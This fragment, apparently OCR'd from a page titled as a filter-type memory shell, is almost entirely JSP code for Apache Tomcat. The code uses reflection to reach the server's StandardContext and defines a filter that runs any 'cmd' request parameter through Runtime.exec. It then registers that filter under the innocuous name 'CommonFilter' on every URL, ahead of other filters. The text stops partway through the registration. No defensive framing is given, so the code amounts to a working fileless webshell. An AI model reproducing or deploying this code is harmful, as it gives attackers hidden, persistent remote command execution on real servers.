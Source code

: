 #### Filter型内存马
```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.util.Map" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
 
<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
 
<%! public class Shell_Filter implements Filter {
        public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    e.printStackTrace();
                } catch (NullPointerException n) {
                    n.printStackTrace();
                }
            }
            chain.doFilter(request, response);
        }
    }
%>
 
<%
    Shell_Filter filter = new Shell_Filter();
    String name = "CommonFilter";
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);
 
 
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);
 
 
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
```
